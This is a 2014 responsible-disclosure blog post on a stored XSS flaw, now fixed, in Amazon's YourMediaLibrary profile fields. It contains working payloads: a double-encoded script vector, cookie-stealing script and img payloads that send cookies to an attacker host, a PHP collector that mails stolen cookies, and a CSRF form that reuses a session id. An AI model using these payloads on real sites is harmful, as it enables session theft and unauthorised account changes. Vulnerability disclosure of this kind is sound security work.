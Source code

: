 ```yaml
---
layout: post
title:  "Disclosure: Stored XSS in Amazon.com with CSRF Bypass"
date:   2014-06-02 09:20:01
categories: responsible-disclosure
permalink: post/stored-xss-in-amazon-com-with-csrf-bypass/
---
```


### Description

The **Amazon YourMediaLibrary** is vulnerable to stored `XSS Vulnerability`, the attacker can redirect an user to his profile page and steal user-cookie to perform an `CSRF Attack`.

> Your Media Library is a secure location from which you retrieve all digital products, including eDocs, Amazon Upgrades, the free electronic user manuals that come with some products, and free music files that are available with select CDs.

### Proof of Concept of Stored XSS - [Double Encoding Technique][encoding]:

[encoding]: https://www.owasp.org/index.php/Double_Encoding "OSWAP - Double Encoding Technique"

**Let's go:**

* First go to yourmedialibrary page [Amazon YourMediaLibrary](https://www.amazon.com/gp/ays/index.html "Amazon YourMediaLibrary") and click to Profile
* Insert this vector into `Interests` or `In my own words` inputs:

		%253Cscript%253Ealert(document.cookie)%253C%252Fscript%253E

* Wait for auto-saving or click “Save”
* Back to profile page to see the injected code

### Possible Attack Scenario with CSRF SessionID Bypass:

Since many values of cookie were setted like **HttpOnly**, the malicious user can’t hijack the session but anyway It can execute an arbiratry operations through an `CSRF Attack` knowning the `session-id` saved in the `user-cookie` (however the session-id does the function of security-token):

1. Generate a base html payload to steal user cookie:

		<script>
			location.href='//land-domain.com/steal.php?cookie='+document.cookie;
		</script>

2. Or if you want a payload without redirect:

		<img style='display:none' src=x onerror=this.src='//land-domain.com/?cookie='+document.cookie>

3. Attacker adds this double encoded vector into his interests in settings profile page:

		%253Cscript%253Elocation.href%253D%2527//land-domain.com/steal.php
		%252Fcookie=%2527%252Bdocument.cookie%253C%252Fscript%253E

4. Then It redirects the user to his medialibrary profile page to steal and store cookie by remote malicious file (basic steal.php)

		$ echo "
		<?php
		  mail('attacker@mailz.org', 'Cookie', $_GET['cookie']);
		  header('Location: '.$_SERVER['HTTP_REFERER']);
		?>" > /var/www/land-domain.com/steal.php

5. Now he’s got a ‘session-id=180-0536506-4528302′ of user (that is not secured).

6. With this simple CSRF page:

		<html>
		<head>
			<title>Amazon CSRF</title>
		</haed>
		<body>
			<form method="POST" action="https://www.amazon.com/gp/ays/ajax/setProfile.html">
				<input type="hidden" name="key" value="inMyOwnWords">
				<input type="hidden" name="value" value="injected">
				<input type="hidden" name="sessionId" value="180-0536506-4528302">
			</form>
		</body>
		</html>

7. The malicious user can change all profile settings of user.

### Example demostration screen

<a href="/images/security/responsible-disclosure/amazon-xss.png">![Prestashop Demo XSS](/images/security/responsible-disclosure/amazon-xss.png)</a>

### Disclosure:

* **28/05/2014** – Report to Amazon Security Team
* **29/05/2014** – Received a response from amazon that assign a ticket
* **01/06/2014** – Amazon fix the bug
* **02/06/2014** – Public disclosure